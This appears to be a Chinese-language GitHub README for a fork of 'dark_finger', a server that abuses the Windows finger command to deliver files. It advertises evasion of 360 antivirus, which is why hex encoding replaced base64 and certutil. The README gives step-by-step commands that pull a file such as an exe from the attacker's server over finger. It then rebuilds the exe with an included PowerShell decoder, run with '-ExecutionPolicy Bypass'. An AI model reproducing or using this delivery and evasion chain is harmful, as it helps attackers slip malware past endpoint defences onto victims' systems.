 本项目是基于`dark_finger`的二次开发 增加易用性 

移除了原有的base64编码 改用hex 因为360杀`certutil`很严

原脚本 https://hyp3rlinx.altervista.org/advisories/Windows_TCPIP_Finger_Command_C2_Channel_and_Bypassing_Security_Software.txt

![image-20241019150729661](https://img-host-arcueid.oss-cn-hangzhou.aliyuncs.com/img202410191507789.png)

`dark_finger`是基于`finger`实现的windows文件传输的服务端 截止2024年10月19日 免杀360
# 使用方法

1. 同目录下创建配置文件`finger.conf`
   
    内容为所需下载的文件名如 `calc.exe`

2. 同目录下放置该文件

    在同目录下放置`calc.exe`

3. 启动服务端监听

    `python dark_finder.py -c finger.conf`

4. 客户端交互

    `finger [filename]@[dark_finder] > dump.txt`

    写入文件的前两行是 空行和服务端信息 需要舍弃

5. 通过powershell解码 转 exe

    `powershell -ExecutionPolicy Bypass -File decode.ps1 calc.txt calc.exe`

    ```powershell
    param(
        [string]$sourceFile,
        [string]$destinationFile
    )

    $lines = Get-Content $sourceFile
    $hexString = ($lines[2..$lines.Length] -join '' -replace '\s+', '')
    $byteList = New-Object System.Collections.Generic.List[byte]

    for ($i = 0; $i -lt $hexString.Length; $i += 2) {
        if ($i + 1 -lt $hexString.Length) {
            $byte = [Convert]::ToByte($hexString.Substring($i, 2), 16)
            $byteList.Add($byte)
        } 
    }


    [System.IO.File]::WriteAllBytes($destinationFile, $byteList.ToArray())

    ```
# 具体细节可参考
https://xz.aliyun.com/t/15899